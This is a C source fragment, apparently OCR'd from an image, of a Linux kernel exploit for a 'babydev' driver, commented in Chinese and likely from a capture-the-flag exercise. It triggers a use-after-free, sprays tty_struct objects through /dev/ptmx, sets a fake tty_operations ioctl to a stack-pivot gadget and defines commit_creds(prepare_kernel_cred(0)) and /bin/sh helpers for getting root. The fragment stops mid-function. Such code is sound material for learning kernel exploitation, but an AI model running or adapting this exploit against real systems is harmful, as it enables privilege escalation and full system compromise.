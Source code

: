 ```
void save_stats() {
    asm(
        "movq %%cs, %0\n" // mov rcx, cs
        "movq %%ss, %1\n" // mov rdx, ss
        "pushfq\n"        // 把rflags的值压栈
        "popq %2\n"       // pop rax
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_rflags) : : "memory" // mov user_cs, rcx; mov user_ss, rdx; mov user_flags, rax
        );
}

void get_shell() {
    system("/bin/sh");
}

void get_root() {
    commit_creds(prepare_kernel_cred(0));
}

void exploit() {
    int i;
    char *buf = (char*)malloc(0x1000);
    struct tty_operations *fake_tty_operations = (struct tty_operations *)malloc(sizeof(struct tty_operations));

    save_stats();

    memset(fake_tty_operations, 0, sizeof(struct tty_operations));
    fake_tty_operations->ioctl = (unsigned long)xchgeaxesp; // 设置tty的ioctl操作为栈转移指令

    int fd1 = open("/dev/babydev", O_RDWR);
    int fd2 = open("/dev/babydev", O_RDWR);

    ioctl(fd1, 0x10001, TTY_STRUCT_SIZE);
    write(fd2, "hello world", strlen("hello world"));
    close(fd1);

    // spray tty 这里的堆喷射其实去掉也能成功，因为是释放后紧接着申请的
    puts("[+] Spraying buffer with tty_struct");
    for (i = 0; i < SPRAY_ALLOC_TIMES; i++) {
        spray_fd[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        if (spray_fd[i] < 0) {
            perror("open tty");
        }
    }

    // 现在有一个tty_struct落在了UAF区域里
    puts("[+] Reading buffer content from kernel buffer");
    long size = read(fd2, buf, 32);
    if (size < 32) {
        puts("[-] Reading not complete!");
        printf("[-] Only %ld bytes read.\n", size);
    }


    // 检查喷射是否成功
    puts("[+] Detecting buffer content type");
    if (buf[0] != 0x01 || buf[1] != 0x54) {
        puts("[-] tty_struct spray failed");
        printf("[-] We should have 0x01 and 0x54, instead we got %02x %02x\n", buf[0], buf[1]);
        puts("[-] Exiting...");
        exit(-1);
    }
```